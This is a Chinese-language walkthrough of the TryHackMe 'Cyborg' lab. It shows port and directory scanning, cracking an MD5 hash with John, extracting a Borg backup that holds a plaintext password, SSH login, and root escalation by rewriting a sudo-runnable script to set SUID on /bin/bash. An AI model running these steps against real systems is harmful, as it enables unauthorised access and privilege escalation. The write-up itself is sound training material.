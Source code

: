 ```yaml
---
sidebar_position: 25
tags: [Easy, Linux, 信息泄露, 密码破解, Borg, SUDO]
title: Cyborg
description: Cyborg
sidebar_label: Cyborg
slug: /tryhackme/25
---
```

# Cyborg
## 端口扫描
```bash
root@ip-10-10-9-229:~# nmap -sT  -p- --min-rate 1000 10.10.15.226

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-20 16:44 BST
Nmap scan report for ip-10-10-15-226.eu-west-1.compute.internal (10.10.15.226)
Host is up (0.020s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:E1:EB:72:EF:E3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.36 seconds
```
## 80 - HTTTP
```bash
root@ip-10-10-9-229:~# gobuster dir -u http://10.10.15.226/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.15.226/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/08/20 16:45:21 Starting gobuster
===============================================================
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```

:::note
我发现在 /etc 目录下对应的存在一些配置文件以及密码
- passwd : 一个 MD5 加密的密码
- squid 一个配置文件, 不过也告诉了我们这个对应的服务信息
:::

```bash title="使用 John 破解密码"
root@ip-10-10-9-229:~# john hash.txt --wordlist=`locate rockyou.txt`
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (?)
1g 0:00:00:00 DONE (2023-08-20 16:48) 1.041g/s 40600p/s 40600c/s 40600C/s 112704..salsabila
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
接着我们访问 `/admin` 在其中我发现一个留言界面, 这其中 Alex 用户告诉我们存在一个备份 music_archive , 而这个名称就是我们之前破解的密码的用途

![20240601000901](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601000901.png)

接着我发现其中存在一个下载界面, 我下载了其对应的网站内容并解压, 搜索后我在其中发现这样一个内容, 这告诉我们这是一个 Borg 存储程序,

![20240601000914](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601000914.png)

进入官网简单了解后, 尝试利用此工具进行恢复我们的内容
```bash
root@ip-10-10-9-229:~/Downloads/home/field/dev/final_archive# borg list  .

Enter passphrase for key /root/Downloads/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
root@ip-10-10-9-229:~/Downloads/home/field/dev/final_archive# ls
config  data  hints.5  index.5  integrity.5  nonce  README
root@ip-10-10-9-229:~/Downloads/home/field/dev/final_archive#  borg list ./::music_archive
Enter passphrase for key /root/Downloads/home/field/dev/final_archive: 
drwxr-xr-x alex   alex          0 Tue, 2020-12-29 13:55:52 home/alex
-rw-r--r-- alex   alex       3637 Mon, 2020-12-28 14:25:14 home/alex/.bashrc
.....
-rw-r--r-- root   root        110 Tue, 2020-12-29 13:55:41 home/alex/Documents/note.txt
-rw-r--r-- root   root         71 Tue, 2020-12-29 13:57:14 home/alex/Desktop/secret.txt
root@ip-10-10-9-229:~/Downloads/home/field/dev/final_archive# borg extract ./::music_archive
Enter passphrase for key /root/Downloads/home/field/dev/final_archive:
```
接着我发现其中存在一个 home/alex/Documents/note.txt 查看此文件我发现 Alex 的用户密码

```bash
root@ip-10-10-9-229:~/Downloads/home/field/dev/final_archive/home/alex/Documents# cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

## 后渗透
### Alex
```bash
root@ip-10-10-9-229:~# ssh alex@10.10.15.226
alex@10.10.15.226's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

\alex@ubuntu:~$ \id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
### Alex --> root
我发现 Alex 用户是 sudo 用户组, 并且发现其可以执行一个 sh 文件

![20240601001006](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601001006.png)

查看此文件权限, 发现拥有者是 alex 所以我重写了此文件内容进行提权
```bash
alex@ubuntu:/etc/mp3backups$ chmod 777 backup.sh 
alex@ubuntu:/etc/mp3backups$ cat << EOF > backup.sh 
#!/bin/bash
chmod u+s /bin/bash
EOF
alex@ubuntu:/etc/mp3backups$ cat backup.sh 
#!/bin/bash
chmod u+s /bin/bash
alex@ubuntu:/etc/mp3backups$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh
alex@ubuntu:/etc/mp3backups$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
alex@ubuntu:/etc/mp3backups$ /bin/bash -p
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```